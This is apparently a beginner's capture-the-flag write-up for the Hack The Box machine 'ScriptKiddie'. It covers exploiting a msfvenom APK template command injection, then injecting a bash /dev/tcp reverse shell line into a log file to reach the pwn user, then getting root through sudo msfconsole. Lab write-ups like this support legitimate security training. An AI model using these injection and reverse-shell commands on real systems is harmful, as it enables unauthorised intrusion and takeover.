

# ScriptKiddie


|Topics               |Details              |
|:--------------------|:--------------------|
| Creator             | [0xdf](https://app.hackthebox.eu/profile/4935)|
| Enumeration         | Slightly required   |
| Scripting           | Not required        |
| Custom Exploitation | Not required        |
| Real Life           | Nope                |

## My thoughts on the box
This box is obviously for beginners; simple steps, you don't need to have advanced skills. I enjoyed solving it, thanks to 0xdf.

BTW (Not Arch XD) this is my first writeup I hope it helps you. 
Constructive feedback is appreciated.

[My Hack The Box profile](https://app.hackthebox.eu/profile/184235)
<br>
<a href="https://www.buymeacoffee.com/f4T1H21">
  
  </img>
</a>

## Reconnaissance
I started with nmap: ``nmap -sS -sC -sV 10.10.10.226``


As you can see here we have two ports open. We can't hack it from it's ssh in this case, let's go with port 5000 which runs an http server through python.

We see a site that runs `nmap` and `msfvenom`, let's check if it is running properly.


It is working well in nmap. I also noticed something interesting in the site, a "`template file`" was required to generate reverse tcp `payloads`.

Googling it up gives us more interesting things XD


https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/

## Exploiting and getting a shell
So we have an msf module that creates a malicious apk file, which will be using in tcp/5000's msfvenom payload generator and expected to give us a reverse shell. Worth to try..

Let's first create our fellow template by using these commands:
```
msfconsole
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
set lhost tun0 #Your VPN ip address
set lport 2121
run
```


We got a malicious template file, we just need to move it to our working directory and set a netcat listener.
```bash
mv /root/.msf4/local/msf.apk .
nc -lvnp 2121
```


Last but not least, go to http://10.10.10.226:5000 and generate a payload using our malicious template file as shown below.


**Boom, we got a reverse shell as the user kid!!** (Don't forget to get your user flag XD)


## Privelege escalation to pwn user
After a really basic enumeration, I noticed an interesting executable in /home/pwn



As I understand so far from the code, what we put inside ``/home/kid/logs/hackers`` is executed as pwn user. Now we're going to put a reverse shell in it and get a shell as **pwn** user.

Let's first set a nc listener on another port:
```
nc -lvnp 4040
```

Now we can put a reverse shell syntax inside the `hackers` file. But here the thing is: I was not able to just get a reverse shell using just ``bash tcp`` reverse shell, so I customized the syntax a bit.

Don't forget to change the ip address.

```bash
echo "  ;bash -c '0<&196;exec 196<>/dev/tcp/YOURIPHERE/2121; sh <&196 >&196 2>&196' # " > /home/kide/logs/hackers
```


**BOOM, we got another reverse shell as pwn user!!**

## Privilege escalation to root
Before doing any enumeration, let's check fi we can use ``sudo -l`` passwordless.


This is so funny :P Just run msfconsole with sudo privileges to become root XD
```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
/bin/bash
```


***And we sucessfully pwned the machine..***


## Closing
[Click](https://app.hackthebox.eu/profile/184235) to give me respect on Hack The Box.

Thanks for reading, see you on another .md file ..
<br>
<a href="https://www.buymeacoffee.com/f4T1H21">
  
  </img>
</a>

Resources:
```
https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/
```

***Written by f4T1H***
